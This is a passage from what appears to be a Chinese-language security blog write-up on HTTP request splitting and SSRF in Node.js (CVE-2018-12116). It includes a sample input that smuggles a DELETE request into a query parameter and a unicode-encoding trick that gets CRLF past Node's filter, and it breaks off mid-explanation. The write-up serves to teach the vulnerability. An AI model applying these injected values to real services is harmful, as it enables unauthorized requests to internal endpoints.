 那这个Node.js的安全问题跟SSRF又是怎么联系到一起的呢？处理用户输入时出现了数据损坏是个明显的危险信号

## HTTP Request Splitting

> *This entails the adversary injecting malicious user input into various standard and/or user defined HTTP headers within a HTTP Request through user input of Carriage Return (CR), Line Feed (LF), Horizontal Tab (HT), Space (SP) characters as well as other valid/RFC compliant special characters and unique character encoding. This malicious user input allows for web script to be injected in HTTP headers as well as into browser cookies or Ajax web/browser object parameters like XMLHttpRequest during implementation of asynchronous requests.*

通俗来说，就是原本1个请求对应1次响应，现在我们对请求的body部分再添加1个请求，导致看似发送了1次请求实则会被解释为2个响应被加载出来，会造成XSS和SSRF

举一个简单的小栗子：一般的请求形式是这样的

```http
GET /private-api?q=<user-input-here> HTTP/1.1
```

但是我们构造了这样的用户输入

```
x HTTP/1.1\r\n\r\nDELETE /private-api HTTP/1.1\r\n
```

当请求发出后，服务端将会收到这样的请求

```http
GET /private-api?q=x HTTP/1.1

DELETE /private-api HTTP/1.1

```

包含了两个请求方式，如果服务端没有设置特殊的过滤则可能会将两个请求全部执行并回显；而如果第二个额外的请求包含一些只有服务端本地才能访问到的内容，则会造成SSRF(Server-Side Request Forgery)

## SSRF via Request Splitting / cve-2018-12116

正如上面栗子展示的那样，不过一般http库都会对这种行为做出防范；Node.js也不例外，比如

```js
const http = require('http');
http.get('http://gqa6995cu69dkt0oxvzzzwzt0k6auz.burpcollaborator.net/\r\n/test')
```

![image-20211205160107403](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211205160107403.png)

换成unicode呢？画风开始奇怪了

```
'http://example.com/\u{010D}\u{010A}/test'
```

![image-20211205160205490](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211205160205490.png)

上面我们提过的unicode截去开头第一个字节的事情，我们就可以构造`\r\n`了
